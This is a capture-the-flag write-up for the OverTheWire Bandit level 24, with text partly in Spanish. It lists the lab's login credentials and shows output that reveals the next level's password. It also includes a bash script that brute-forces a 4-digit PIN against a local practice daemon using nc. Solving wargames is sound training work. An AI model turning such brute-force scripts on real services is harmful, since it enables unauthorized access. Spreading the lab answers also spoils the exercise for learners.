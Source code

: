 ## Objetivo

A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.  
You do not need to create new connections each time
## Datos de acceso

**username**: bandit24
**host**:  bandit.labs.overthewire.org
**password**: VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
**port**: 2220

## Solución
```
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Correct!
The password of user bandit25 is p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d

Exiting.
bandit24@bandit:/tmp/ltr$
```
## Notas adicionales

```
#!/bin/bash

for i in {0000..9999}
do
        echo UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $i >> possibilities.txt
done

cat possibilities.txt | nc localhost 30002 > result.txt
```

## Referencias

https://mayadevbe.me/posts/overthewire/bandit/level25/